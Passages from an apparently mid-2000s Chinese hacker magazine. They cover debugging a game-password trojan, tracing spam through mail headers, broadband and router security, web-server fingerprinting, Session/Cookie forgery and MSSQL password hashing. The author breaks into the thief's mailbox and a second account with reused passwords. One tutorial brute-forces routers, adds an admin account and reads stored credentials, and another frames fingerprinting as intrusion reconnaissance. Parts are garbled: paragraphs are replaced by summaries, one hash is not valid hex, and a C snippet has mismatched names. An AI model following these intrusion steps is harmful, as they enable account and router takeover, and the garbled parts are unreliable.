……去国外搜了搜，还好一个法国人写了一个 unFSG2。法国人太可爱了。既然 svchost.exe 会调用 locarxjh.sls，那我们就在 locarxjh.sls 出现的地方下断点，如下所示。

```asm
00401419  FF15 10604000    call dword ptr ds:[...GetSystemDirectoryA]
00401423  68 60704000      push s.00407060 ; ASCII "\\locarxjh.sls"
00401429  FF15 08604000    call dword ptr ds:[...lstrcatA]
...
00401467  FF15 3C604000    call dword ptr ds:[...CreateFileA]
...
0040147E  FF15 1C604000    call dword ptr ds:[...WriteFile]
...
00401485  FF15 18604000    call dword ptr ds:[...CloseHandle]
```

从上面调用的 API 上传递的参数连猜带蒙，大致能知道该程序都做了些什么操作：首先得到系统目录，然后用 lstrcatA 函数把 `\locarxjh.sls` 附在 `C:\WINNT\System32` 的后面，然后调用 CreateFileA 函数在 `C:\WINNT\System32` 下，将 buffer(001347F8) 的内容写到 locarxjh.sls 文件内。也就是我们看到的 locarxjh.sls 文件的内容。

然后跟着一段类似的代码，也是将运行程序 copy 到 `WINNT\System32` 目录下，一路下来 ShellExecute 最后运行……

ShellExecute 之后就是保持运行状态等待接受密码了……我们可以在 ShellExecute 前加一个 JMP，让代码向后跳，直接跳到发送程序那里继续运行进行跟踪……

还是自己动手吧……还记得 locarxjh.sls 中的 insthook 这个函数，搜索一下 insthook，找到如下代码：

```asm
CreateFileA
0012F8E4  004078C8   FileName = "C:\\WINNT\\System32\\locarxjh.sls"
0012F8E8  40000000   Access = GENERIC_WRITE
...
WriteFile
0012F8F4  001347F8   Buffer = 001347F8
0012F8F8  00010000   nBytesToWrite = 10000 (65536.)
...
00401320  FF15 20604000 call dword ptr ds:[...LoadLibraryA]
...
00401335  FF15 84604000 call dword ptr ds:[...GetProcAddress]
...
```

这段代码用 C 写的话，应该是这样的：

```c
typedef UINT (CALLBACK* LPFNDLLFUNC)(DWORD, UINT);

HINSTANCE Handle;
LPFNDLLFUNC insthook;

Handle = LoadLibrary("locarxjh.sls");
if (hDLL != NULL)
{
    insthook = (LPFNDLLFUNC)GetProcAddress(Handle, "insthook");
    insthook();
    ...
}
```

这里顺便再科普一把，程序用 LoadLibrary 加载 locarxjh.sls，将文件映像到这个进程的地址空间，Handle 这个句柄得到的值其实就是文件映像的虚拟内存地址。GetProcAddress 来获取 locarxjh.sls 里 insthook 的函数地址，并且返回指针，后面就是对函数的调用了。

那我们就直接跳到 LoadLibrary 这里（0040131B，0040131B 这里是压入 LoadLibrary 的参数），在 GetProcAddress 之后，GetProcAddress 函数的返回值即 insthook 函数地址保存在 eax 里面，最后 call eax，F7 跟进这个 call，如图4所示。基本上什么都不用做了，密码以字符串的形式都写出来了。

图4

程序在获取密码后登录一个叫 mujigun@163.com 的邮箱，然后把拿到的密码和用户名用这个邮箱再发到这个邮箱，实现了一个简单盗取的过程。不过公司另一位大牛说这样做的人很傻，因为容易被发现。如果是他写的话，他建议用两个邮箱，mujigun1 和 mujigun2，登录 mujigun1 给 mujigun2 发邮件。这样如果 crack 了 mujigun1 的邮箱，也无法登录 mujigun2 的邮箱，至少保证了 mujigun2 邮箱的安全。

后面又用 Yahoo POP3 的认证方式作修改举了个例子，不过因为我水平有限，后面讲的基本上都没听懂……立刻用 Outlook 连上 163.com，在 Outlook 里面选择服务器选择“副本”，打开，好多封信，看看都是魔兽的密码账户，如图5所示。

为了更多地收集对方信息，又去对方邮箱联系人那里看了看，看到几个邮箱。如图6所示。分别是 laohazhu@163.com、kefu@service.netease.com。既然这个邮箱是对方用来盗号的，那对方应该没傻到用这个邮箱来联系其他人吧。抱着“爱蒙才会赢”的观点，觉得这几个邮箱总会和这个邮箱有些许联系。

图5

图6

于是登录 laohazhu@163.com，用 mujigun@163.com 的邮箱密码试了试，果然进去了。如图7所示。

看到了吧，这就是蒙的力量……幸运女神忙的时候继续照顾我。kefu@service.netease.com 测试了 N 个密码后都没进去。上天是如此的公平，蒙了两个邮箱，让我蒙对了 50%，知足了。

他的邮箱我没有动，看完之后就关上了，没有修改密码，没有删改邮件，怕对方发现了，因为大牛那边依然在攻击网站，如果对方发现了而不登录了，大牛那边的前期工作就都废了。

发稿前两天，大牛那边传来消息说网站进去了，并且在后台挂了木马，这两天苦等对方上线，满足一下我们想参观游览的迫切愿望。事与愿违的是每天这个叫 mujigun 的人都会来收信，但是反弹木马却没有任何动静。如果不是我们的木马有问题，就是对方一直没有登录后台。

事情并没有因为对方不上线而结束，大牛坚持助人为乐、拾金不昧、落井下石、有仇必报的观点，要把这整个事情包括邮箱账户全部交给 the9（魔兽世界的代理商），让 the9 去做后续工作，可见其善良。

整个事情希望告诉那些依然在盗别人游戏账号的朋友：黑客应该怎么做我是真的不太清楚，不过技术真的不应该这么用吧。把你的收益建立在别人的痛苦上，把你的快感建立在别人的失落上，当半生之后的你想起这一切时，你如何面对自己的良心？你又如何去教育自己的孩子呢？你自己也不过是一个不劳而获、损人利己的“扒手”罢了。

一直觉得黑客要扮演的角色，如果不能成为《黑客帝国》中的救世主，就应该尝试去成为技术中的艺术家。但不论成为什么，都不应该成为假装侠义、却损人利己，以让别人损失而获利的贼……

这篇文章也就此告一段落，由于本人水平有限，文中可能有这或那的错误，还请各位高手指点一二，不胜感激。

### 脚本小子：转眼新年来到了

各个商家也开始了各种各样的宣传促销活动。虽然发送垃圾邮件是让许多黑客英雄们所不齿的事情，但林子大了，什么鸟都可能有。于是，垃圾邮件也开始愈演愈烈，最直接的受害者可能就是无辜的用户了。试想，如果用户每天花 5 分钟收垃圾邮件，那么一年之中将有多少宝贵的时间浪费在垃圾邮件上面？如果把这些时间做点别的事情，那又是什么结果？现在，很多的网络安全事件都会同邮件直接关联，比如病毒传播、密码丢失、木马等，都可以通过垃圾邮件的途径进行传播，其危害可想而知。作为一个网络安全爱好者，如何用自己的力量去追踪垃圾邮件呢？请看下文。

- 适合读者：普通网民、入侵爱好者
- 前置知识：无

## 2005年黑客聚焦：追踪垃圾发邮件事件

文/图 风之扬

相信大家和我一样，在日常生活中收垃圾邮件也算是一份固定的工作了吧？收到垃圾信件后，如何追踪垃圾邮件发送者呢？很多朋友会毫不犹豫地说，当然是查出寄信人的 IP 了。其实，在对付垃圾邮件方面，主要有两种形式：防御与追踪。防御主要是强调对垃圾邮件的过滤或者是阻止垃圾邮件的产生，而追踪则强调主动地追查垃圾邮件来源，并对其进行警告或者采取其他措施。本文将主要介绍对邮件的追踪方面的技术，通过针对邮件头进行分析，并查询到最接近源头的地址，以揭开垃圾邮件发送者的“庐山真面目”。

#### 邮件头及传输过程

首先，我们通过一次反垃圾邮件的测试来看看什么是邮件头。因为大多数情况下，服务器都会把寄信人的相关信息附在邮件的文件头。比如，利用 Tom.com 的免费邮箱，给 spamemail@china.com.cn 发一个邮件，进入 http://mail.china.com.cn/ 邮箱，收到后打开看看（如图1所示）：

```text
X-Received: unknown;202.108.255.195,20041202195628
Received: from unknown (HELO tom.com) (202.108.255.195)
  by localhost with SMTP; 2 Dec 2004 11:56:28 +0000
MIME-Version: 1.0
Message-ID: <41A1F02AE,000113,05427@bjapp25>
Date: Thu, 2 Dec 2004 19:55:26 +0800 (CST)
From: "=?gb2312?B?...?=" <pwbpub@tom.com>
To: spamemail@china.com.cn
Subject: =?gb2312?B?...?=
X-Priority: 3
X-Originating-IP: [211.99.190.5]
X-Mailer: CoreMail Version 2.5 ...
Content-Type: Multipart/Alternative; boundary="Boundary..."
```

图1

点击信箱上面的“邮件头信息”，可看到这样的信息：

```text
Return-Path: <pwbpub@tom.com>
Delivered-To: spamemail@china.com.cn
Received: from 210.72.21.22 (HELO eqmanager2.china.org.cn) ...
  by mx.china.com.cn (qmail) with SMTP id ...
  for spamemail@china.com.cn; Thu, 2 Dec 2004 20:05:48 +0800
X-scanvirus: By Sophos Scan Engine
X-scanresult: CLEAN
```

对方是从不同的邮件服务器上发来的，中间自然有转信过程，每转一次都会在文件头顶部加信息。下表列出了一部分表头的相关含义，对我们分析垃圾邮件具有事半功倍的效果。

| 字段 | 含义 |
|---|---|
| From: | 邮件从哪里发送的，很容易被伪造，在分析中非常不可信。 |
| From | 不同于 From: 域，这行并不通常是邮件头的一部分，而是邮件转发程序经常插入这一行，表明邮件什么时候被接收。 |
| Reply-To: | 回复时发送的地址。很容易被伪造，但常常提供线索。 |
| Return-Path: | 与 Reply-To: 相同。 |
| Sender: | 消息发送者。这通常都是伪造的。 |
| Message-ID: | 邮件系统创建邮件时的唯一标记，也容易被伪造；而不仅仅是创建邮件的系统。Message-ID 的结构同邮件服务器程序有直接关系，不同的邮件服务器产生的 ID 也不一样……由日期、时间、标识、邮件用户名和 DNS 构成。 |
| In-Reply-To: | 在回复的邮件里可能存在，通常指向原始邮件的 Message-ID。 |
| Received: | 最可信赖的头。一般会有几条，形成站点列表，表示邮件到达目的地过程中的服务器路径；该域由邮件服务器自动插入。最上面一条 Received 是最终目的系统或邮件服务器。 |

通常的邮件传递主要步骤由下面过程完成：

```text
Sender --> MUA --> MTA --> (routing) --> MTA -->
-> MDA --> {filtering} --> MUA --> receiver
```

> **脚本小子：** MUA（Mail User Agent）表示邮件客户端程序，比如 Foxmail、Outlook、Mutt 等；MTA（Mail Transport Agent / Message Transfer Agent）表示消息传输代理，负责存储和转发邮件；MDA（Mail Delivery Agent）表示邮件发送代理，负责将邮件投递给用户，并进行某些特定投递操作。

了解了这些环节，我们就可以顺藤摸瓜，探测垃圾发送者的老巢了。

#### 垃圾邮件追踪实例

SMTP 协议在创建时并未充分考虑未来垃圾邮件问题，邮件头可被任意创建、伪造和修改。垃圾发送者会利用程序将邮件转发到其他服务器并修饰头信息以逃避追踪。因此关键任务是识别伪造内容并获得真实信息进行查询。

#### 1. 邮件头追踪

- 一般来说，邮件内容、Reply-To、最终邮件服务器的 Received 内容都有助于追踪来源。
- 对于 `Received:` 域可从时区、时间误差、IP 地址错误等方面查验。
- 下文给出一个修改了邮件地址和 IP 地址的邮件头示例。

```text
Return-Path: <spamemail@test.com.cn>
Delivered-To: pwbpub@test.com
Received: from mail.test.com.cn (unknown [211.167.xxx.xxx])
    by test.com (Postfix) with ESMTP id 590F2160A9 for
    <pwbpub@test.com>; Thu, 8 Aug 2004 16:48:46 +0800 (CST)
Received: from mail.test.com.cn ([127.0.0.1]) by localhost
    (mail[127.0.0.1]) (amavisd-new, port 10024) with ESMTP id
    30543-01 for <pwbpub@test.com>; Thu, 8 Aug 2004 16:47:14 +0800 (CST)
Received: from risker.debian.org (unknown [218.18.xxx.xxx])
    by mail.test.com.cn (Postfix) with ESMTP id 32E0817DC17
    for <pwbpub@test.com>; Thu, 8 Aug 2004 16:47:06 +0800 (CST)
Date: Wed, 5 May 2004 14:36:13 +0800
From: wlj <spamemail@test.com.cn>
To: pwbpub@test.com
Subject:
Message-Id: <20040505143613.25dd214b.spamemail@test.com.cn>
Mime-Version: 1.0
Content-Type: multipart/mixed;
X-Virus-Scanned: by amavisd-new at test.com.cn
```

上面的邮件头明显经过篡改，包括在 MUA 发送时添加的头内容和经过 MTA 过程中添加的内容。现在关键任务是检查 `Received:` 的传递过程。

第一步：找到如下内容：

```text
Received: from risker.debian.org (unknown [218.18.xxx.xxx])
    by mail.test.com.cn (Postfix) with ESMTP id
    32E0817DC17 for <pwbpub@test.com>; Thu, 8 Aug 2004
    16:47:06 +0800 (CST)
```

仔细分析可见，这是第一个 MTA 从 MUA 接收邮件时插入的头内容。可据此判断机器名、IP、接收服务器、协议、队列 ID、目标地址和时间时区等信息。

第二步：查找第二个 Received: 内容。具体如下：

```text
Received: from mail.test.com.cn ([127.0.0.1]) by localhost
(mail[127.0.0.1]) (amavisd-new, port 10024) with ESMTP id
30543-01 for <pwbpub@test.com>; Thu, 8 Aug 2004 16:47:14 +0800 (CST)
```

这是邮件服务器内部程序进行的处理过程，因此 IP 为 127.0.0.1，由 localhost 处理；`amavisd-new` 与 `port 10024` 反映了杀毒/过滤接口处理链路。

第三步：查找第三个 Received: 内容。具体如下：

```text
Received: from mail.test.com.cn (unknown [211.167.xxx.xxx])
    by test.com (Postfix) with ESMTP id 590F2160A9 for
    <pwbpub@test.com>; Thu, 8 Aug 2004 16:48:46 +0800 (CST)
```

该过程表示邮件从服务器名为 Mail.test.com.cn 传递出去，IP 地址为 211.167.xxx.xxx，接收邮件的服务器是 Test.com，采用 Postfix 服务程序，也通常使用 ESMTP，传递的目标是 pwbpub@test.com，日期为 Thu, 8 Aug 2004 16:48:46，时区是 +0800 (CST)。

```
risker.debian.org (MUA) --> mail.test.com.cn (MTA) --> localhost (MTA中的amavisd-new) --> test.com (MTA)
```

整个过程经历了将近两分钟。不过在追踪垃圾邮件过程中，这个传递过程中的 Received 存在被篡改的可能。也就是说，发送者可能使用了“障眼法”。因此，要练就一双火眼金睛，判断哪些信息是伪造的，哪些是真实的。对于 Received 来说，最后的站点是接收者自己的邮件服务器，因此最后的 Received 是真实可靠的，除非自己的服务器已经不安全了。

#### 2. 垃圾广告邮件追踪

现在，垃圾广告邮件尤其猖獗。对于这类邮件来说，内容中有联系人、联系电话、联系 Email、邮编等，追查就很直接。一个典型的此类邮件头内容如下：

```
Return-Path: <fault@spamemail.com>
Delivered-To: pwbpub@test.com
Received: from spamemail.com (unknown [221.232.11.40])
  by test.com (Postfix) with ESMTP id 399521C124
  for <pwbpub@test.com>; Mon, 24 May 2004 11:07:41 +0800 (CST)
From: "bbcss" <fault@spamemail.com>
Subject: ...
To: pwbpub@test.com
Content-Type: multipart/mixed; ...
MIME-Version: 1.0
Reply-To: reply@yahoo.com.cn
Date: Mon, 24 May 2004 11:07:45 +0800
X-Priority: 3
Message-Id: <...@test.com>
```

现在来对该邮件进行简单的分析。首先找到这一段：

```
Received: from spamemail.com (unknown [221.232.11.40]) by test.com (Postfix) with ESMTP id 399521C124 for <pwbpub@test.com>; Mon, 24 May 2004 11:07:41 +0800 (CST)
```

本例中，测试用的邮件服务器 Test.com 是可信的，因此这条 Received 信息也是可靠的，但其中的一些内容可能并不是真实可靠的。邮件来自一个机器名为 spamemail.com 的，IP 地址为 221.232.11.40，邮件接收时间是 Mon, 24 May 2004 11:07:41 +0800 (CST)……

名字而已。该邮件的发送者是 From: “bbcss” <fault@spamemail.com>，而回复地址是 Reply-To: reply@yahoo.com.cn。实际上我们就可以推测 fault@spamemail.com 是伪造的了，但是回复地址却可能是真实的。另外，他们肯定使用了一些垃圾邮件发送工具，能够伪造发送者地址、机器名，并且可以直接传递邮件。

#### 3. 追捕

经过上述分析测试，我们就可以得到一些有用的数据了。通过对邮件的分析，我们一般能够找到可能接近源头的某个邮件地址或者一个 IP 地址（这个 IP 地址可能是一个受害者），用这些信息来追查，依然存在很多难度……假如我们看到的信来自 163.net 服务器（bjmx4.163.net），再追下去来自 263.net（smtp.x263.net），再下去是来自 IVAN (unknown [218.70.*.*])，那就应该是寄信人了。

那就是来自重庆。通过很多优秀的工具，我们就可以来揭开对手的庐山真面目了。如果对方在聊天室或论坛上，我们怎样查到他的 IP 呢？其实也简单，下载一个工具 phunter……运行后会把连接到你电脑的 IP 捕获下来。可以通过在聊天室或论坛放置指向你地址的图片链接来诱导访问，从而捕获对方 IP。

脚本小子：互联网高速发展的今天，我们已进入宽带时代。在 2004 年 7 月发布的《中国互联网络发展状况统计报告》白皮书中，中国上网用户数为 8700 万，短短 3 个月之后，这个数据已经被刷新提高了 300 万，最新的数字显示，中国的上网总人数已经突破了 9000 万。此外，越来越多的用户使用了宽带接入互联网的方式，其用户数量已经达到了 2000 万。宽带对应的安全问题日益突出，账户被盗、密码丢失、系统被黑等系列问题又带来了多收费代理、恶意盗号、非法充网络游戏币值等更多更严重的问题。下面我们来看看宽带的安全问题以及涉及到的防护方法。

- 适合读者：ADSL 拨号用户、入侵爱好者  
- 前置知识：无

### 宽带网狂——宽带上网安全

文/图 cczb1

目前，涉及到的宽带安全问题主要有这几个。

- 1. 盗用宽带账号及密码问题。
- 2. 宽带路由器安全问题。
- 3. 操作系统本身问题。

下面我们就分析一下各个问题并试图找出解决方案、防护办法。

#### 旧病用新药：宽带账号的盗用

这个问题由来已久，只是大家心照不宣，没有把这个问题拿到台面上说。其实这个问题很大程度是由于电信验证以及宽带业务的不同种类引起的。

宽带拨号用户的认证方式主要有 PPPoE 和 Web 认证两种。PPPoE 采用先认证、后分配 IP 的方式，需要注意，如果是包月制，采用 PPPoE 方式不能解决对非法用户的远程停、开机，这些用户可盗用他人账号及密码上网，采用 Web 认证方式也解决不了这个问题。

目前国内的宽带用户大多是基于 PPPoE 的 DSL 用户，当终端接入 Internet 时需要拨号验证，而验证的用户名及密码是在用户办理宽带业务时取得。由于电信出于管理原因，这个账号及密码有很大规律可循：用户名很多都以电话号码为基数，加上其后缀，密码几乎都是电话号码，猜解这个账号及密码非常容易。

宽带用户对账号密码根本没有安全意识，甚至某些宽带安装人员也对用户说宽带密码不存在安全问题，只有你的电话能用。久而久之，这个隐性问题非常普遍。通过编写程序猜解宽带账号、判定条件匹配，短时间内可找到大量可用账号。

这个问题也源于电信策略：第一，你的电话必须办理了宽带业务，物理上线路可用；第二，你在拨号时用的用户名及密码是匹配的。只要是一对可用用户名和密码，即使与你的线路不匹配，也可能通过机房设备认证获得 IP 上网。

……因为 ADSL 数据信号与普通电话语音信号是不同频段，而且使用 ADSL 上网时并不经过电话交换机，所以很难根据电话号码查出是谁在盗用你的账号及密码，这样的后果其实很严重。

前边我们说了，盗用者必须也办理宽带业务。那么为什么还盗用别人的账号及密码？原因有三：第一，为了隐藏身份；第二，一些按流量上网的人可以不受流量限制，借用包月用户账号上网，造成包月用户权益受损；第三，使用他人账号可进行某些在线交易（如游戏点卡购买）并将风险转嫁给被盗者。

有些城市开通了账号密码绑定业务，可在电信营业厅办理绑定，使宽带账号只能在申请线路上使用（即只能通过本人 ADSL/LAN 线路拨号），可降低被盗用风险。

目前我们最重要的是形成安全意识，保管好自己的宽带账号及密码。很多泄露都源于用户自身，定期修改密码和设置强口令是必要的。当安全意识普遍建立后，违法者的生存空间会变小。

#### 不被注意的角落：路由器的安全

使用路由器或带路由功能的猫时，当用户不使用路由方式上网，Modem 只工作在二层以下，只起到桥接作用，完成对 MAC 帧的 SAR 功能和物理层透传功能，电脑上的拨号软件完成拨号过程，公网 IP 由拨号电脑获得。

现在相当部分用户为了上网方便，打开了 Modem 的路由功能，把宽带账号输入到 Modem 中，由 Modem 完成拨号过程。在这种情况下需特别注意路由器口令、远程管理、默认配置等安全风险。

## 漏洞攻击防范

方式下公网 IP 地址分配给 Modem，然后通过路由器作为网关来实现上网。大多数带路由功能的 Modem 都提供了 Web 和 Telnet 等配置方式供用户使用，这些 Modem 的端口 80、23 默认打开。那么他人远程就能访问到你的 Modem 的配置页面，然后查看存放用户名、密码一页的 HTML 源代码，就可以看到明文的用户名和密码。下边，我给出一个实例来说明这个问题：

首先我们启动流光，由于这是大家比较熟悉的软件，这里不介绍使用方法。我这里用的是 5.0，在其高级扫描选项选择一个网段，检查项目只选择 FTP 和 Telnet，这样可以加快速度。选择好字典，开始扫描，如图 1 所示。

很快找到符合情况的宽带路由器，如图 2 所示。

我们在浏览器地址栏打开刚才找到的地址，就会出现如图 3 所示的界面，输入刚才流光猜解的密码，这样我们就是管理员身份了，这是个 Greennet 的宽带路由器，如图 4 所示。

我们可以自己加一个管理账号及密码，如图 5 所示。这个 Root 账号不可以改名，也不可以删除。我们再来分析一下这个宽带路由器内置的宽带账号及密码，找到配置界面的快速设置页面，如图 6 所示。

可以看到账号及密码了吧？密码是星号，经验证判断就是账户内的电话号码，查看网页的源码，验证猜想正确——这就是目前网上非常流行的充 QQ 币值的方法！

路由暴露的问题是目前普遍存在的，希望可以引起注意。目前主流的宽带路由器都支持 FTP 和 Telnet 访问，且大多数用户根本不修改其默认密码及端口，每个品牌的路由器都有默认密码，在网上很容易找到，这里就不公布了。使用宽带路由器时，在设置时一定要更改默认选项，尤其是默认密码，最好能把默认的 FTP 和 Telnet 端口也改了，或者不允许使用，因为往往是使用者设置不当造成了安全隐患。

另外，系统问题很多，也让人苦笑不得，比如病毒木马引起的后门问题，系统本身空密码或者弱密码，没有打上最新的补丁等。回忆近几年来 4 星以上的病毒，诸如红色代码 II、求职信、尼姆达等留有后门的病毒给我们留下的印象很是深刻。路由器问题和系统本身的问题往往又会引起宽带账号泄露问题，这样就会形成一个恶性循环。这些问题都应该引起我们的注意。

安全看似遥远，其实就在你我身边。安全性往往取决于进攻的对象之所花费与为保护数据花费的一种动态平衡。只有建立在深度防御基础上的整体安全系统，才能有效地保护系统中每一个点的安全，才能有效地防止外界的非法入侵，也才能在发生故障的情况下迅速找出最佳方法来恢复业务。总之，用户、运营商和网络安全商携起手来尽快采取积极有效的防护措施，已经成为中国宽带网络发展的当务之急。

脚本小子：时至今日，黑客事件中用系统漏洞入侵的事件百分比渐渐减少，因为当系统漏洞出现时，用户都能及时打上相应的补丁，这是个好现象。但据入侵案例分析，入侵源是“Web 服务器”的黑客事件在所有的入侵中占有数比较大。虽然最大的问题不只是“Web 服务器”的本身问题，但是据 Windows 和 *NIX 之间的系统本身的差异，就能轻松地分析出目标系统。

- 适合读者：入侵爱好者、网络管理员
- 前置知识：无

### 三招搞定 WWW 服务器类型

入侵目标之前有一个分析目标主机的阶段，那么现在就来谈一下关于入侵服务器前是如何分析对方的（也就是入侵前的资料搜集，当然搜集到的资料越详尽帮助就越大）。虽然现在一些牛人开发了好用的工具，但是我们总不能依赖那些 X-Scan、流光等全自动的分析、扫描工具，因为要成为高手，大侠也应学会不要依赖工具的思想，这样技术才有所提高，同时也因为一般有条件的服务器也有专业的 IDS 系统，如果盲目地利用这类型的工具，对方的 IDS 系统就会响个不停，到时候可能你的 X-Scan 或流光的进度条才完成 10%，网警就按你家的门铃了。

我们应该如何来进行入侵前的资料搜集呢？

第一式：WWW 服务器应答报文的分析，也就是看看服务器的 Banner！读这里的仅限菜鸟，高手把这个机会留给徒弟们吧！这种方法在以前是比较常用的，也比较准确。为了有更多的资料给小菜们，我在这里也提一提吧。分析这类报文最好用 NC 来抓取，喜欢图形界面的朋友也可以用“WSockExpert”这个工具，图 1 是我用“WSock Expert”抓取到的 WWW 服务器的应答报文。

可惜这种方法在现在这个时代并不准确。因为 Banner 可以随意修改，你可以把 MS 的 IIS 改成 *NIX 的 Apache，或改成你自己出品的 IIS，只要盖茨不反对你就可以了。那如何大体分出对方的服务器呢？

第二式：对服务器的目录进行访问，看看服务器的回应是怎么样的。一般直接访问服务器目录就可以大体分析出对方的系统是 *NIX 或 Windows。

例如对方是个产品展示的网站，通常网站都是由图片来增加其色彩的，你可以去访问一下这网站里的图片目录，如 `http://localhost/images/a.jpg`，你就可以在浏览器里通过 `http://localhost/images` 来进行访问。如果对方是 MS 的 IIS，那么一般情况下它会返回“Directory Listing Denied”和“This Virtual Directory does not allow contents to be listed.”这两句话。如果对文件配置了目录索引的，这就会列出文件。

IIS 的回应就是这样，如果是 Apache 的回应又是如何呢？Apache 服务器回应的一般有 IIS 的禁访问或文件的索引列表。不过它的回应就与 IIS 有差别了。下面这个图就是 Apache 返回的信息。以同样的方法去访问相应的目录，当目录存在时，如果目录没有设置默认的文件列表索引，那么它会回应“403 Forbidden”，并会有回应文件服务器的版本信息，如图 2 所示。

```
HTTP/1.1 200 OK
Date: Sun, 20 Feb 2005 00:43:03 GMT
Server: Apache/2.0.48 (Win32) PHP/4.3.1
Accept-Ranges: bytes
X-Powered-By: PHP/4.3.1
Transfer-Encoding: chunked
Content-Type: text/html; charset=gb2312
```

“这行‘Server: Apache/2.0.48 (Win32) PHP/4.3.1’就回应出服务器的相关信息，它是使用 Windows 操作系统。”

这图还告诉我们它的服务器是 Apache，且版本是 Win32 位的 2.0.48，也就是对方的 WWW 服务器是运行在 Windows 上的 Apache，够易懂了吧！但是，一些网管不愿这些出错的信息带给访问者，通常会把出错的页面带到正常的页面，如首页或上一页又或者是出错报告的页面。那么，一般的新手也很难分辨出对方在耍什么把戏！下面我们引用一个更合理的分析。

第三式：利用文件名的差异性。对操作系统有所认识的人也许知道文件名的问题。如在 Windows 系统上，文件名通常是由 26 个字母和 10 个阿拉伯数字来组成的。

## 漏洞攻击防范 / EXPLOIT ATTACK DEFENCE

*NIX 系统上的也与 Windows 道理相同……通过 URL 中文件名大小写差异进行目标分析（如将 `php` 改为 `phP` 等）的说明性段落。

- 适合读者：脚本攻击爱好者、脚本程序员
- 前置知识：脚本语言基础

## 进阶

《Dreamweaver 引发网络危机》  
文/图 koshan

“2·14 那天收到杂志……”至“于是进行了以下的测试。”以及后续对某站点 `abc.com`、`login.asp`、`ok.asp`、`hack.asp` 的流程分析段落。

图 1

Test1.asp 内容如下：

```asp
<%
session("a")=true
if session("a")<>"" then
  response.write "ok"
else
  response.write "no"
end if
%>
```

Test2.asp 内容如下：

```asp
<%
if session("a")<>"" then
  response.write "ok"
else
  response.write "no"
end if
%>
```

对 `Session` 与 `Cookie` 区别的说明：Session 存储于 Server 端、不同服务器间不共享；并给出 `test1.asp`、`test2.asp`、`127.0.0.1:81` 与 `127.0.0.1:82` 的测试配置描述。

测试结果说明：先访问 `http://127.0.0.1:81/test1.asp` 显示 `ok`，再访问 `http://127.0.0.1:82/test2.asp` 实际显示 `no`；并总结在同站点下 Session 名和值一致时可减少重复验证。

是自己又在 Google 上找了点关于 Session 的资料，以弥补自己的才疏学浅。这里再以问答的形式补充几句。

- 1. 问：Session 安全还是 Cookie 安全？  
  - 答：Session 安全，因为 Session 储存在服务器端，不可伪造。
- 2. 问：既然 Session 已经很安全了，可是为什么还要使用 Cookie 验证？  
  - 答：Session 储存在服务器端，当然比 Cookie 更占资源，更要命的是 Session 是不同用户相互独立的，所以为了减轻服务器负担，一些有大量用户在线的程序都会使用 Cookie 验证，如常见的论坛。
- 3. 问：Cookie 可以伪造吗？什么工具可以修改 Cookie？  
  - 答：可以，请使用 IECV。
- 4. 问：Session 可以伪造吗？  
  - 答：其实理论上 Session 也是可以伪造的，但是伪造 Session 成功的概率基本上等于 0，因为它的随机值是 64 位的，猜解的可能性太小了。

朋友们，这下弄明白了吗？

- 适合读者：系统分析员、数据库管理者、入侵爱好者
- 前置知识：SQL 命令

## 初探 MSSQL 口令加密

文/图 病毒

Microsoft SQL Server 是如何对用户的口令加密的呢？事实上，网上已经有相关的文章，但作者仅在文章中指出 SQL Server 的用户口令是通过未公布的函数 `pwdencrypt()` 来对用户的口令进行加密的，而未进行深入的探讨。下面我们来做个测试，一步一步向它的核心迈进。

打开查询分析器，执行代码如图 1 所示。  
图 1

我们得到当前“sa”用户密码的 HASH 散列。再执行代码如图 2 所示，我们得到现在 `pwdencrypt()` 函数对“sa”加密的 Hash 散列。  
图 2

过几秒钟，我们再执行同样的语句得到如图 3 所示的结果。同样的命令，在不同的时间执行却得到了不同的结果。  
图 3

```
0x01003B36CC26AC29637D6C25A71E2316C5A093657856AAC54312E753A79383E1726A95A1916861C48D1DA64926E2（第一次）
```

```
0x0100ED326E2C2624B5C0497E1CCFA598315747E65288825612D66441A05F6F4868B306383D9A73BE6972C7427C74（第二次）
```

从这点我们推断，时间函数 Time() 在用户口令加密的过程中起到了作用。进一步，我们可以推断，不同的用户使用相同的口令，那么相同口令的 Hash 散列也将不同。

为了证明我们的推断，我们在 SQL Server 里建立一个用户，口令与“SA”用户的相同，再在查询分析器里执行代码如图 4 所示，得到“system”用户密码的 Hash 散列。  
图 4

“sa”与“system”用户相同的口令得到的 Hash 散列：

```
0x01001467A17E2240B895110CE39374F1ED3A76E9FE2152DFD49F33D9A5A1C3844DD475432C0E3E19FCFF4563C43C（sa用户）
```

```
0x0100C43E685F179176BFGC1E1634C21D4683E7A8AB596B0A9AA3053A8BD2131D2A454E0101B859B643AF63E0C5F7（system用户）
```

明显不同，证明我们的推断是正确的。我们再在查询分析器里执行代码如图 5 所示，得到“000000”的 Hash 散列。  
图 5

```
0x0100F8505F698C2B276E92606E02DDB07DAC9CA7E4E123B7ABC88C2B276E92606E02DDB07DAC9CA7E4E123B7ABC8
```

我们分解来看看：

```
Part1: 0x0100（从上面的所有查询中可以发现这个值是不变的）
Part2: F8505F69（salt值）
Part3: 8C2B276E92606E02DDB07DAC9CA7E4E123B7ABC8（SHA散列）
Part4: 8C2B276E92606E02DDB07DAC9CA7E4E123B7ABC8（SHA散列）
```

看到了吗？Part3与Part4是完全相同的。从上面的测试中可以看出，Hash其中一个不足之处是相近的输入值产生相近的加密值。也就是说，对于两个具有相同密码的用户，他们的密码都以相同的加密字符串的形式而被存储。如果黑客能够查看这些字符串形式，他们就可以猜到密码的形式并有可能得以破解。在Hashing算法中添加Salt值可以解决以上的问题。

一个Salt值是使用算法之前被添加到输入数据中的随机字节，其可以为由系统生成或者诸如一个程序员编号的任意数值。当Salt值添加到加密开始之处，一旦两个字符串被连接，Hash处理就开始。SQL Server的口令加密也正是如此。

当用户试图登录SQL服务器时，服务器首先检查数据库中用户的登录口令，并提取Salt值，然后Salt值与用户输入的口令字符串连接，产生一个SHA（安全Hash算法）Hash值，并与数据库中的Hash值做比较。

在查询分析器中，可以发现master.dbo.sp_password里面有口令比较的内容：

```
pwdcompare(@old, password, ((CASE WHEN xstatus&2048 = 2048 THEN 1 ELSE 0 END)))
```

这样就完成了整个登录的验证过程！行文仓促，不足之处请大家多多指教！

### 脚本小子

俗话说树大招风，网站做大了，问题自然也就接踵而来。一些喜欢入侵的朋友千方百计地想入侵网站的服务器。当然，有这些人的攻击就会有管理员的防护。在网站被黑的情况下，网络游侠凭着自己的经验和冷静的分析把问题解决了。下面我们就一起来看看游侠的反黑之路吧。

适合读者：网管、入侵爱好者  
前置知识：无


文／图 网络游侠@X.U.S.T & “呆蛙”

#### 序幕

